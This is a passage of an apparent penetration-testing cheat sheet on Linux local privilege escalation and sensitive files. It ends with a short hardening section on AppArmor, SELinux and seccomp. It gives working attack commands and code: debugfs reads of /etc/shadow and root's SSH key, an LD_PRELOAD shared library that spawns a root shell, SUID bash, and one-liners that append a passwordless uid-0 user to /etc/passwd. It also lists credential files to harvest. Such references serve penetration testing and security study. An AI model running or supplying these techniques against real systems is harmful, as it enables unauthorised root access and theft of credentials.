  - Resolution: `cat /sys/class/graphics/fb0/virtual_size`
  - Video feed: Open `​/dev/fb0​` in a image editor
    ```bash
    cp /dev/fb0 screenshot.raw
    iraw2png 1024 768 < screenshot.raw > screenshot.png

    fbdump
    ```
  - <https://www.kernel.org/doc/Documentation/fb/framebuffer.txt>
- Important Groups 
  - `shadow` - can read /etc/shadow
  - `disk` - raw access to files 
    - `debugfs /dev/sda1`
    - `debugfs: cat /root/.ssh/id_rsa`
    - `debugfs: cat /etc/shadow`
  - `video` - access to framebuffer
    - `cat /dev/fb0 > /tmp/screen.raw`
    - `cat /sys/class/graphics/fb0/virtual_size`
  - `root`
    - `find / -group root -perm -g=w 2>/dev/null`
- Privilege Escalation: <http://www.dankalia.com/tutor/01005/0100501004.htm>
  - Abusing users with '.' in their PATH
  - Shell Escape Sequences
  - IFS Exploit
  - LD_PRELOAD Exploit
    - cat /etc/ld.so.conf
    - cat /etc/ld.so.conf.d/*
    ```cpp
    #include <stdio.h>
    #include <sys/types.h> 
    #include <stdlib.h>
    void _init() { 
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
    }
    // gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    // sudo LD_PRELOAD=/home/admin/shell.so apache2
    ```
  - Symlinks
  - Get root shell from a limited account
    - From root: `chmod +s /bin/bash`
    - From limited account: `/bin/bash`
- Find plain text username / password
    ```bash 
    grep -i user [filename]
    grep -i pass [filename]
    grep -C 5 "password" [filename]
    find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
    ```
- Commands with sudo: `sudo -l`
- New file Permissions: `umask`
- Generate password hash (md5): `openssl passwd -1` `echo 'joske' | openssl passwd -1 -stdin`
- Generate password hash (sha256): `python -c "import crypt; print crypt.crypt('joske')"`
- Add user with passwd
    ```bash
    echo 'user2:*:1002:1003:,,,:/home/user2:/bin/bash' >> /etc/passwd
    passwd user2

    echo "user2:`openssl passwd -1 -salt user3 pass123`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`mkpasswd -m SHA-512 pass`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`perl -le 'print crypt("pass123", "abc")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`php -r "print(crypt('aarti','123') . \"\n\");"`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd
    ```
- Add root user
    ```bash
    adduser username
    usermod -aG sudo username
    ```
    ```bash
    echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd
    ```
- Change user password
    ```bash
    echo "trevelyn:trevelyn"| /usr/sbin/chpasswd
    ```

**References**

- <http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/>
- Linux Local Privilege Escalation via SUID /proc/pid/mem Write - <https://git.zx2c4.com/CVE-2012-0056/about/>
- <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>

## Important Files 

- GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions: <https://gtfobins.github.io/>
- Files owned by User: `find / -type f -uid 1000 -ls 2>/dev/null`
- Environment variables: `/proc/self/environ`
- Email: `/var/log/mail/USER`
- Private keys: `~/.ssh/id_rsa`
- APT sources: `/etc/apt/sources.list`
- Order of name resolution: `/etc/nsswitch.conf`
- DNS Hosts File: `/etc/hosts`
- DNS sever Information: `/etc/resolv.conf`
- Kernel module config: `/etc/sysctl.conf`
- Sys calls: `/usr/include /i386-linux-gnu/asm/unistd_32.h`
- Os Info: `/etc/issue` `/proc/version`
- Cron: `/etc/crontab`
- Bootloader - GRUB2
  - Main configuration file (replaces `menu.lst` in GRUB (v1)): `/boot/grub/grub.cfg`
  - Directory contains the scripts that build the `grub.cfg`: `/etc/grub.d`
    - `00_header` - Loads the settings from `/etc/default/grub`
    - `05_debian_theme` - Defines the colors, background, etc.
    - `10_linux` - Loads the menu entries
    - `20_memtest86` - Loads the memory tester
    - `30_os-prober` - Scans the hard drives for other operating systems
    - `40_custom` - Template for manually adding other menu entries
  - File contains the GRUB menu settings: `/etc/default/grub`
    - Run `update-grub` after modifying.
- Samba: `/etc/samba/smb.conf`
- Logs:
  - Syslog: `/etc/rsyslog.conf`
  - Log mail events of all priorities to /var/log/mail: `mail.* /var/log/mail`
  - Log all events of the emergency priority (emerg) to all logged on users: `.emerg`
- Squid Proxy: `/etc/squid/squid.conf` `/etc/squid/passwords`
- Apache:
  - `/var/log/apache2/access.log`
  - `/etc/apache2/sites-enabled/000-default.conf`
  - `/etc/apache/sites-enabled/000-default.conf`
  - `/etc/httpd/sites-enabled/000-default.conf`
- TFTPD: `/etc/default/tftpd-hpa`
- PHP Sessions: `/tmp/sess_ID` `/var/lib/php5/sess_ID`

```
/etc/issue
/proc/version
/etc/profile
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

**Passwords**

```
/etc/passwd
/etc/shadow

/etc/pwd.db
/etc/passwd

/etc/spwd.db
/etc/shadow

/etc/master.passwd
```

## Special File Handling

- 7z files
  - Print file information: `7z l -slt example.zip`
  - Extract: `7z x example.zip`
- Microsoft Outlook Personal Folder (PST)
  - Examine: `readpst -tea -m example.pst`

## Defense 

**References**

- PAM vs NSS: <https://serverfault.com/questions/538383/understand-pam-and-nss/>
- Support to authenticate against PostgreSQL for PAM-enabled appliations: <https://github.com/pam-pgsql/pam-pgsql>

Point of no C3 | Linux Kernel Exploitation

- <https://0x00sec.org/t/point-of-no-c3-linux-kernel-exploitation-part-0/11585>
- <https://0x00sec.org/t/kernel-exploitation-dereferencing-a-null-pointer/3850>

**Tools**

- Locally checks for signs of a rootkit: <http://www.chkrootkit.org/>

**Checklists**

- Linux hardening checklist: <https://github.com/trimstray/linux-hardening-checklist>
- Kernel hardning checklist: <https://github.com/a13xp0p0v/kconfig-hardened-check>

### AppArmor

- 2.6.36 + 
- allows to restrict programs capabilities with per-program profiles.
- Linux kernel security module that allows the system administrator to restrict programs’ capabilities with per-program profiles
- supplements the traditional Unix discretionary access control (DAC) model by providing mandatory access control (MAC).

### SELinux

- provides a mechanism for supporting access control security policies, including…(MAC)
- set of kernel modifications and user-space tools
- separate enforcement of security decisions from the security policy 
- streamlines the volume of software charged with security policy enforcement 

### Seccomp

- 2.6.12 +
- used for filtering syscalls issued by a program
- secure computing mode, [seccomp] is a computer security facility in the Linux kernel
- allows a process to make a one-way transition into a “secure” state where it cannot make any system calls except exit(), sigreturn(), read() and write() to already-open file descriptors
- kernel will terminate the process with SIGKILL, if anyother syscall was tried
- does not virtualize the system’s resources but isolates the process from them entirely

### Capabilties

- for performing permission checks.

### Grsecurity

- A set of patches for the Linux kernel which emphasize security enhancements
- collection of security features to the Linux kernel, including address space protection, enhanced auditing and process control 

### PAX